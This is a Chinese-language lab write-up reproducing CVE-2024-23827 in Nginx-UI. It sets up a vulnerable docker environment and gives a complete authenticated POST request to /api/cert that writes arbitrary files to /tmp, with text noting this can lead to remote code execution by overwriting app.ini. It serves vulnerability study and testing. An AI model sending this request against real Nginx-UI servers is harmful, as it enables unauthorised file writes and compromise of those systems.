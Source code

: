 # CVE-2024-23827 通过导入证书功能写入任意文件 

#### 漏洞描述

Nginx-UI 是一个用于管理 Nginx 配置的 Web 界面。导入证书功能允许任意写入系统。该功能不会检查提供的用户输入是否是证书/密钥，并允许写入系统中的任意路径。可以利用该漏洞进行远程代码执行并覆盖配置文件 app.ini。版本 2.0.0.beta.12 修复了该问题。

参考链接

https://blog.csdn.net/shelter1234567/article/details/136303180?csdn_share_tail=%7B%22type%22%3A%22blog%22%2C%22rType%22%3A%22article%22%2C%22rId%22%3A%22136303180%22%2C%22source%22%3A%22shelter1234567%22%7D

## 漏洞环境

执行如下命令启动一个包含漏洞的Nginx-UI环境：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:9000即可查看web页面。在Nginx UI的第一次运行时，请在浏览器中访问“http://<your_server_ip>:<listen_port>/install”完成后续配置

## 漏洞复现

前端登录，获取有效Authorization

![](https://img-blog.csdnimg.cn/direct/e3bc413ac55c4964aa9e119d48bc6814.png)

开启burp 修改请求包

![](https://img-blog.csdnimg.cn/direct/082d89af90d94d2ea7cd49b872ebf334.png)

```go
POST /api/cert HTTP/1.1
Host: 192.168.116.128:9000
Accept: application/json, text/plain, */*
Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJleHAiOjE3MDkwMTM2NTl9.dRDlO1X1hZdSlpW7TMRIsInNpm2VcIBMiEDPfFxZo-c
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Referer: http://192.168.116.128:9000/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: _ga=GA1.1.2049876865.1708327587; _ga_ZCZHJPMEG7=GS1.1.1708327586.1.1.1708327666.0.0.0; kirby_session=cc1d1a863be81c336432fd9289a4b1dcda92ec43%2B1709870053.fc16749a4dca942d7b1b.c69e92337168ffdf0dab0629ba6d4bd795e9facde4f117c1b0f512656bad94fa
Connection: close
Content-Length: 158

{"name":"poc","ssl_certificate_path":"/tmp/test.jsp","ssl_certificate_key_path":"/tmp/test2.sh","ssl_certificate":"testjsp","ssl_certificate_key":"test2sh"}
```

发包成功，看一看文件是否真正被写入

```
ls -la /tmp/test*
```

![](https://img-blog.csdnimg.cn/direct/2ab694080c1f453e97cde0d17fba4661.png)

文件成功被写入 漏洞复现成功
